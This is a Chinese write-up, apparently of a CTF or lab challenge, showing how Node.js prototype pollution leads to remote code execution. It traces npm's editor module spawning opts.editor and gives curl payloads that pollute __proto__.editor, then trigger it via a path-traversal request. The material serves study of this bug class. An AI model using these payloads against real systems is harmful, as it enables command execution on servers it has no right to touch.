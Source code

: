 那么问题来了，需要污染什么样的变量，会比较容易实现RCE，我的想法如下：
- options 配置参数，原因如下
  - 配置参数有很多不是默认就已经设置了的，这样程序会去原型上寻找变量，恰好符合原型链污染生效的条件。
  - opts = opts||{} 代码里面经常出现这种写法，拷贝一个空对象，就表明了，一旦有opts.xx这种获取对象属性的代码，都会去原型上查找。
  - 通过污染配置参数，可以控制程序的执行流程。
- exports中的变量
  - nodejs和php的文件包含有一个不一样的地方，并不是文件中所有的代码都会被执行，只有module.exports中的变量才会被包含


### 解法一
看这个文件的目录，像是和npm有关
/usr/local/lib/node_modules/npm/node_modules/editor/example/edit.js
```js
var editor = require('../');
editor(__dirname + '/beep.json', function (code, sig) {
    console.log('finished editing with code ' + code);
});
```
这个文件里面有一个require操作，并且直接调用了require进来的函数，跟进require

```js
var spawn = require('child_process').spawn;

module.exports = function (file, opts, cb) {
    if (typeof opts === 'function') {
        cb = opts;
        opts = {};
    }
    if (!opts) opts = {};
    
    var ed = /^win/.test(process.platform) ? 'notepad' : 'vim';
    var editor = opts.editor || process.env.VISUAL || process.env.EDITOR || ed;
    var args = editor.split(/\s+/);
    var bin = args.shift();
    
    var ps = spawn(bin, args.concat([ file ]), { stdio: 'inherit' });
    
    ps.on('exit', function (code, sig) {
        if (typeof cb === 'function') cb(code, sig)
    });
};
```
污染editor参数就可以rce了

payload
```bash
% curl http://localhost:3000/api/tet/list  -X POST -H "Content-type: application/json" -d '{"data":{"__proto__":{"editor":"touch /tmp/234.txt"}}}'
% curl http://localhost:3000/api/tet/years -X POST -d 'list=../../../../../usr/local/lib/node_modules/npm/node_modules/editor/example/edit.js'
```

发现一个奇怪的地方，只能污染一次，第二次不能执行
